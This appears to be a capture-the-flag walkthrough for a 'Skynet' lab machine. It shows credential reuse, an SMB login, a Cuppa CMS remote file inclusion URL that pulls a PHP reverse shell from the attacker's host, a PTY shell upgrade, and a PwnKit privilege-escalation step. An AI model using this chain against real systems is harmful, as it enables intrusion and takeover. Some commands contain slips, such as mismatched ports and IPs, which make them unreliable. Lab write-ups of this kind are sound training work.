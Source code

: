 log1.txt
```sh
cat log1.txt    
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
...
```
### Data exfiltration
1. Using the data discovered on the scanning phase we can login into the email interface using

url: http://10.10.19.223/squirrelmail/
user: milesdyson
pass: cyborg007haloterminator

2. By checking email we will find an email containing samba password for milesdyson:

*"We have changed your smb password after system malfunction.
Password: `)s{A&2Z=F^n_E.B`
"*
3. Connect to samba share using the password from email
```sh
smbclient //10.10.161.244/milesdyson  -U milesdyson
```

4. Check notes folder and retrieve *important.txt* file
```sh
cat important.txt                          

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

5. Check the new discovered location from web: http://10.10.161.244/45kra24zxs28v3yd/administrator
6. This location is the login page for *Cuppa CMS* vulnerable as per https://www.exploit-db.com/exploits/25971
7. Using the vulnerable url from the exploit page you can remote execute code - insert a shell.php
	1. Create a php reverse shell file called shell.php -  use pentest monkey
	2. Start a local instance of the python server
		```sh
		python3 -m http.server 809
		```
	3. Craft the url to insert code: http://10.10.221.44/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.35.41:8090/shell.php
8. Use reverse shell connection to grab the flag from /home/milesdyson: **[UserFlag]**

### Privilege escalation

1. Spawn an elevated shell using python
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
2. Get linpeas.py script from https://github.com/carlospolop/PEASS-ng/releases
3. Upload script on the victim machine using python http server
4. Run script and check output. as per the results the Linux version is vulnerable to CVE:2021-4034 https://www.exploit-db.com/exploits/50689
5. Change user to *su milesdyson* password *Cyborg007haloterminator*
6. Get the C script on victim machine and compile it
```sh
gcc exploit.c -o exploit #compile

.exploit #run the script
```